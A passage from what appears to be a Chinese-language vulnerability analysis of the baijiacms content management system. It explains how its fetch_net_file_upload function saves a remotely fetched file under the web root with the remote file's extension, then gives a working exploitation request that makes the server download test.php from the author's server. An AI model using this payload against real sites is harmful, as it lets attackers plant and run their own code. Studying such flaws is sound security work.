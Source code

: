 和之前一样,$_GPC就是用GET和POST传参即可,trim去除空白字符,跟进fetch_net_file_upload

```
function fetch_net_file_upload($url)
{
    $url = trim($url);


    $extention = pathinfo($url, PATHINFO_EXTENSION);
    $path = '/attachment/';
    $extpath = "{$extention}/" . date('Y/m/');

    mkdirs(WEB_ROOT . $path . $extpath);
    do {
        $filename = random(15) . ".{$extention}";
    } while (is_file(SYSTEM_WEBROOT . $path . $extpath . $filename));


    $file_tmp_name = SYSTEM_WEBROOT . $path . $extpath . $filename;
    $file_relative_path = $extpath . $filename;
    if (file_put_contents($file_tmp_name, file_get_contents($url)) == false) {
        $result['message'] = '提取失败.';
        return $result;
    }
    $file_full_path = WEB_ROOT . $path . $extpath . $filename;
    return file_save($file_tmp_name, $filename, $extention, $file_full_path, $file_relative_path);
}
```

pathinfo以数组格式返回文件路径信息,这里只返回了文件的拓展名extension

然后拼接一个年月日期作为新的路径,mkdirs创建路径

接下来使用随机数和拓张名拼接生成新的文件名

然后在if判断这里写入文件,文件名是刚才信息拼接而成的,文件内容是$url也就是远程文件里面读出来的

最后使用return返回文件的路径信息

### 漏洞利用

还是直接拿payload打

我的vps上创建一个test.php

![image-20220207005247332](images/13.png)

```
http://127.0.0.1/baijiacms-master/index.php?mod=web&do=file&m=public&op=fetch&url=http://远程IP/test.php
```

![image-20220207005259817](images/14.png)

注意这里vps上的文件最好不用用数字,我用1.php就没有返回文件名
